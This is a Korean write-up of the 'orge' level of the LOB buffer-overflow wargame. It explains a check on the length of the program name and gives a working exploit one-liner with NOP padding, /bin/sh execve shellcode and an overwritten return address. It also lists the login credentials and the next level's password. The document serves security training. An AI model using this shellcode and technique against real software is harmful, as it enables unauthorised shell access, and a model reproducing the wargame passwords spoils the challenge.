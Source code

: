 # [LOB] orge Write-up

![](./picture/orge_1.JPG)

```
login : darkelf
Password : kernel crashed
```

위의 계정으로 로그인하면 접속된다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/orge_2.JPG)

이번 문제는 argv[0], 즉 실행파일 이름의 길이를 검사한다. 실행할 때 77글자 중 `,`과 `orge`를 제외한 72글자를 `/`로 채우면 된다. 

![](./picture/orge_3.JPG)

나머지 풀이과정은 이전 문제와 똑같다. 인자로 쉘코드를 넘겨주고, argv[1]의 시작 주소를 찾아 리턴주소로 넣어주면 된다. core dump를 뜬 상태에서 esp+4가 argv 주소이다.

![](./picture/orge_4.JPG)

argv[1]의 주소를 확인해보니 입력해준 A와 리턴주소가 있다.

```
.`python -c 'print "/"*72'`orge `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x9d\xfb\xff\xbf"'`
```
`슬래시(/)`를 72개 넣어주어 argv[0]의 길이를 77로 맞춰 주었다. 그리고 `NOP(19byte)`과 `쉘코드(25byte)`로 SFP까지 44byte 채워 주었고, 그 뒤인 RET을 `argv[1]의 시작 주소`로 채워 주었다.

![](./picture/orge_5.JPG)

비밀번호는 `timewalker` 이다.